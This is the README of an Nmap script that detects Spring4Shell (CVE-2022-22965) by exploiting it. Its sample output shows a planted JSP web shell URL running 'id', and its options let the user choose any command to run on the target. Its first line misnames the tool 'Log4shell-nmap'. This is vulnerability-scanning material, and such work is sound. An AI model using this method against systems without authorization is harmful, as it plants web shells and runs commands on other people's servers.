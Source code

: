 # nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified (default "/") endpoint.

## Vulnerability
See (here)[https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/].

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- endpoint - relative url. On https://bugspace.pl/search/videos it will be '/search/videos',
- command - command to be run on the server.  The default command is "id",
- assertion - the checked string inside the server response. The default assertion is "uid",
- filename - file name on the server. For more information see (here)[https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/]. The default name is shell.

## Sources to check
https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## License
Same as Nmap--See https://nmap.org/book/man-legal.html
